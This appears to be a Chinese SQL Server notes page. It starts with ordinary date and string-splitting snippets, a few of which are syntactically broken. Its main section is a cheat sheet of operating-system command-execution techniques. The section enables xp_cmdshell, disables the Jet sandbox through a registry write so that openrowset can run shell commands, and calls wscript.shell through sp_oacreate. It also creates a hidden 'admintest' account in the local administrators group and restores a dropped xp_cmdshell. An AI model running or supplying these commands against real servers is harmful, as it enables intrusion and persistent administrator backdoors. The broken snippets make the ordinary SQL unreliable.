 ```sql
SELECT @Hour=CONVERT(nvarchar(10), CONVERT(INT,DATEDIFF(Hour, @PlanFinishTime, getdate())))+'小时'
SELECT @Minute=CONVERT(nvarchar(10), CONVERT(INT,DATEDIFF(Minute, @PlanFinishTime, getdate())))+'分'

set @Rst=@Day+@Hour+@Minute

RETURN @Rst

END
```

## 字符串分割

```sql
declare str vchar(100)
set str='1,2,3'
select * from tablename where id in (select str2table from StrToTable(@str) )
print charindex('abc','dfsaabc')--存在所以返回值为5（abc中的a在dfsaabc里的下标）
select charindex('8','06,08,09,10,47,48,49,53,54,55')
select SubString('12345',2,3)
select SubString('06,18,55',1,2)
select SubString('06,18,55',4,2)
select SubString('06,18,55',7,2)
```

## 开启权限

```sql
EXEC sp_configure 'show advanced options',1 --允许修改高级参数
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1  ---打开xp_cmdshell扩展
RECONFIGURE

EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;

exec sp_configure
exec xp_cmdshell 'whoami'

exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1;
select * from openrowset('microsoft.jet.oledb.4.0',';database=ias\dnary.mdb','select shell("whoami")');

declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:/windows/system32/cmd.exe /c net user admintest admintest123 /add'
Exec master.dbo.xp_cmdshell 'net user admintest admintest123 /add'
Exec master.dbo.xp_cmdshell 'net localgroup administrators admintest /add'

-- 方法2:查询分离器连接后 删除权限修复 不要乱执行哈
-- 第一步执行：use master
-- 第二步执行：sp_dropextendedproc 'xp_cmdshell'
-- 第一步执行:EXEC sp_addextendedproc xp_cmdshell,@dllname ='xplog70.dll'declare @o int
-- 第二步执行:sp_addextendedproc 'xp_cmdshell', 'xpsql70.dll'

-- 开启xp_cmdshell:
exec sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure'xp_cmdshell', 1;RECONFIGURE;
-- 关闭xp_cmdshell:
exec sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure'xp_cmdshell', 0;RECONFIGURE;

```